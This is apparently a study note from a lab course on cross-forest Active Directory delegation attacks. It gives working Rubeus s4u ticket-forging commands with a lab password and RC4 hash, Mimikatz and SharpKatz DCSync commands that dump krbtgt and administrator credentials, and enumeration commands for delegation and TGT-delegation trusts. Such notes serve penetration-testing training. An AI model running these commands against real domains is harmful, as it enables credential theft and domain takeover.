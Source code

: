 # Cross Forest Attacks - Delegations

- [Cross Forest Attacks - Delegations](#cross-forest-attacks---delegations)
  - [Privilege Escalation - Constrained Delegation with Protocol Transition](#privilege-escalation---constrained-delegation-with-protocol-transition)
  - [Cross Forest - Unconstrained Delegation](#cross-forest---unconstrained-delegation)

---

## Privilege Escalation - Constrained Delegation with Protocol Transition

The classic Constrained Delegation does not work across forest trusts, but we can abuse it once we have a beachhead/foothold across forest trust.

- PowerView

```
Get-DomainUser –TrustedToAuth -Domain eu.local
Get-DomainComputer –TrustedToAuth -Domain eu.local
```

- AD Module

```
Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties msDS-AllowedToDelegateTo -Server eu.local
```

<br/>

We can request an alternate ticket using Rubeus:

```
C:\AD\Tools\Rubeus.exe hash /password:Qwerty@123 /user:storagesvc /domain:eu.local
```

```
C:\AD\Tools\Rubeus.exe s4u /user:storagesvc /rc4:068A0A7194F8884732E4F5A7CB47E17C /impersonateuser:Administrator /domain:eu.local /msdsspn:nmagent/eu-dc.eu.local /altservice:ldap /dc:eu-dc.eu.local /ptt
```

<br/>

Abuse the TGS to LDAP:

- Mimikatz

```
Invoke-Mimikatz -Command '"lsadump::dcsync /user:eu\krbtgt /domain:eu.local"'
```

- SharpKatz.exe

```
C:\AD\Tools\SharpKatz.exe --Command dcsync --User eu\krbtgt --Domain eu.local --DomainController eu-dc.eu.local
```

```
C:\AD\Tools\SharpKatz.exe --Command dcsync --User eu\administrator --Domain eu.local --DomainController eu-dc.eu.local
```

<br/>

## Cross Forest - Unconstrained Delegation

Recall the Printer bug and its abuse from a machine with Unconstrained Delegation - we have used it to escalate privileges to Domain Admin and Enterprise Admin.

- It also works across a **Two-way forest trust with TGT Delegation** enabled!

**TGT Delegation is disabled by default** and must be explicitly enabled across a trust for the trusted (target) forest.

In the lab, `TGTDelegation` is set from `usvendor.local `to `techcorp.local` (but not set for the other direction).

<br/>

**Enumeration**

To enumerate if `TGTDelegation` is enabled across a forest trust, run the below command from a DC:

```
netdom trust <trustingforest> /domain:<trustedforest> /EnableTgtDelegation
```

```
LAB: <br/>
See if `usvendor.local` trusts `techcorp.local`

netdom trust usvendor.local /domain:techcorp.local /EnableTgtDelegation
```

Note:
The PowerShell cmdlets of the ADModule seems to have a bug, the below command shows TGTDelegation set to `False`:
`Get-ADTrust -server usvendor.local -Filter *`
- But when run from `usvendor-dc`, it shows `TGTDelegation` to be `True`.

<br/>

